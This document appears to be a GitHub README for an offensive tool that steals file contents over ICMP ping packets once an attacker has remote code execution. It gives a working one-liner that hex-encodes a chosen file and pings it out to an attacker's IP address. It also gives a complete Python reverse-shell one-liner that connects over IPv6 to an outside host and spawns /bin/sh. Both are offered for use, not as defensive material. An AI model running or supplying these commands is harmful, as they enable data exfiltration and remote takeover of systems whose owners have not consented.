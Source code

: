 # 📡 ICMP Data Exfiltration via Ping

## 🚀 Overview
This project provides a method for exfiltrating file contents using **ICMP packets** when you have **Remote Code Execution (RCE)** but cannot establish a reverse shell or list directories. It allows you to send file data through **ping requests** and capture it using a sniffer.

## ⚙️ Prerequisites
✅ Root privileges to run the sniffer  
✅ Python3 and Scapy installed on the attacker’s machine  
✅ Target machine must allow outbound ICMP traffic 

## 🛠️ How to Use
#### 1️⃣ Start the Sniffer on the Attacker’s Machine

Run the following command as root:
```bash
sudo python3 icmp_sniffer.py
```

#### 2️⃣ Execute the Payload on the Target Machine

To exfiltrate the contents of /etc/hosts, run:

```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line <attacker_ip>; done
```
- Replace `/etc/hosts` with the file you want to read.
- Replace `<attacker_ip>` with your actual IP address.

#### 3️⃣ Example Output
Below is an example screenshot of the sniffer capturing data sent over ICMP:

![ICMP Sniffer Output](Images/Icmp_sniffer_usage.PNG)

#### 🌐 Optional: Reverse Shell over IPv6
If the target supports IPv6, you can establish a reverse shell:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:4::1004",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## 📌 Notes
⚠️ This method works if outbound ICMP is allowed.

⚠️ File exfiltration is slow due to small packet sizes.

⚠️ Modify `sniff(iface='tun0', prn=data_parser)` to use the correct interface.


